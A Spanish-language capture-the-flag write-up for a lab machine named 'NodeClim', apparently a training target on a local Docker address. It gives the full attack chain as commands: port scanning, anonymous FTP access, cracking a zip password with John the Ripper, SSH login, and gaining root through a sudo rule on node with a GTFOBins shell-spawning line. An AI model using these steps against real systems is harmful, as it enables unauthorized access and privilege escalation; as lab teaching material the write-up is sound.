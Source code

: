 # NodeClim
![Image](https://github.com/user-attachments/assets/72d99b22-343e-4961-8d30-cb8024718ba2)


## Hacemos un nmap bien potente

```bash
sudo nmap -p- --open -sS -sV -sC -min-rate 5000 -vvv -Pn -n 172.17.0.2 
```

![Image](https://github.com/user-attachments/assets/fc5088c9-b575-49cb-bcef-bbe1ab3e6e58)

vemos que tenemos el puerto 22 (SSH) y el puerto 21 (FTP) vemos que podemos entrar como anonymous en FTP así que lo vamos hacer.

![Image](https://github.com/user-attachments/assets/d986421f-e506-4a11-b0f9-9aeba0e20ac6)



Al conectarnos por FTP vemos que hay un archivo en .zip, lo vamos a descargar y ver que puede tener. 
Con el siguiente comando los descargamos:

```bash
ftp> get secretitopicaron.zip
```

Una vez que lo tenemos toca poder ver que hay dentro de el, solo que al querer mirarlo nos pide contraseña así que vamos hacer lo siguiente.

Usamos *zip2john* para extraer el hash de la siguiente manera:

```bash
zip2john secretitopicaron.zip > hash.txt
```


Dentro del hash.txt nos dio esto:
```bash
> cat hash.txt    
secretitopicaron.zip/password.txt:$pkzip$1*2*2*0*34*28*59d5d024*0*46*0*34*4c03*ca77f2799f1414311ed5431ae8e9c6a1220f40fa3854acef077a9a0510124d4397da4f21d34e3002081b01c2a37d545d419c470a*$/pkzip$:password.txt:secretitopicaron.zip::secretitopicaron.zip
```


Ahora vamos a descifrar ese hash con *john* de la siguiente manera:

```bash
john hash.txt -w /usr/share/wordlists/rockyou.txt.gz
```

**John the Ripper** va a tomar el `hash.txt` (que representa la contraseña encriptada del archivo `.zip`) y va a intentar **romper esa contraseña** usando **todas las palabras** del archivo `rockyou.txt.gz`.

---


![Image](https://github.com/user-attachments/assets/17ce0d1f-6595-4074-b3d3-5384f9501962)



Nos da la contraseña del .zip así que vamos a mirar que tiene usando *unzip* para descomprimirlo.

nos descarga el archivo llamado password.txt y vamos a ver que tiene dentro.

![Image](https://github.com/user-attachments/assets/38657c73-90b5-4d6e-a2c4-1c67a48bbe85)


Ahora que vemos usuario y contraseña nos vamos a conectar por SSH de la siguiente manera:
```bash
ssh mario@172.17.0.2
```

Listo, ahora estamos dentro como mario, vamos por la escalada de privilegios y ser root.

![Image](https://github.com/user-attachments/assets/9682cc1e-aaba-4570-8d00-fec4b2d7d1f9)

---
Hacemos un **sudo -l** para ver que permisos se pueden tener y nos sale los siguiente:

```bash
Matching Defaults entries for mario on 7732a1776bdb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 7732a1776bdb:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```


El usuario `mario` **puede ejecutar como root** el siguiente comando **sin contraseña**:

`/usr/bin/node /home/mario/script.js` 

Así que con ayuda de *GTFOBins* vamos hacer esto.

Si hacemos un *ls* nos da lo siguiente: **script.js** y vemos que esta vacío así que con **nano** lo que vamos hacer es mandarnos una shell como root. vamos a *GTFOBins*
Copiamos el siguiente comando:

```
require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})
```

![Image](https://github.com/user-attachments/assets/d89430b8-39cd-4010-924b-e14e146724de)

---

Y lo metemos dentro de el script llamado *script.js* una vez ahí ahora si lo vamos a ejecutar de la siguiente manera:

```bash
sudo node /home/mario/script.js 
```

Ponemos el sudo para que se ejecute como root, sino lo ponemos seguimos siendo mario. Y no ponemos solo el nombre de script.js sino la ruta absoluta para que funcione mejor. Una vez que se ejecuta listo, ya somos root ->

![Image](https://github.com/user-attachments/assets/82f2696d-0c85-4ad8-8d89-c15cd3538235)

---

